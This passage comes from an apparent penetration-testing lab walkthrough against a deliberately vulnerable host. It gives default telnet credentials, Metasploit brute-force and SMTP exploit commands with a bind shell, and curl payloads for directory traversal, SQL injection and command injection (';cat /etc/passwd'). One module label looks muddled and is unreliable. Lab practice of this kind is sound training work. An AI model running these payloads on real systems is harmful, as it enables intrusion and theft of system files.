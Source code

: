 ### 3. Telnet (Port 23) - Weak Credentials
```bash
# Connect with telnet
telnet 172.21.0.3

# Try credentials:
# msfadmin:msfadmin
# user:user

# Metasploit brute force
use auxiliary/scanner/telnet/telnet_login
set RHOSTS 172.21.0.3
run
```

### 4. SMTP (Port 25) - OpenSSL Heap Overflow
```bash
# Using Metasploit
use exploit/unix/smtp/openssl_slmail
set RHOSTS 172.21.0.3
set payload generic/shell_bind_tcp
exploit
```

### 5. HTTP (Port 80) - Multiple Web Vulnerabilities

#### Directory Traversal
```bash
# Manual testing
curl "http://172.21.0.3/dvwa/../../../etc/passwd"
curl "http://172.21.0.3/mutillidae/index.php?page=../../../../etc/passwd"

# Using dirb
dirb http://172.21.0.3

# Using gobuster
gobuster dir -u http://172.21.0.3 -w /usr/share/wordlists/dirb/common.txt
```

#### SQL Injection (DVWA/Mutillidae)
```bash
# Using SQLMap
sqlmap -u "http://172.21.0.3/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=your_session; security=low" --dbs

# Manual SQL injection
curl "http://172.21.0.3/dvwa/vulnerabilities/sqli/?id=1' OR '1'='1&Submit=Submit"
```

#### Command Injection
```bash
# DVWA command injection
curl "http://172.21.0.3/dvwa/vulnerabilities/exec/?ip=127.0.0.1;cat /etc/passwd&Submit=Submit"
```
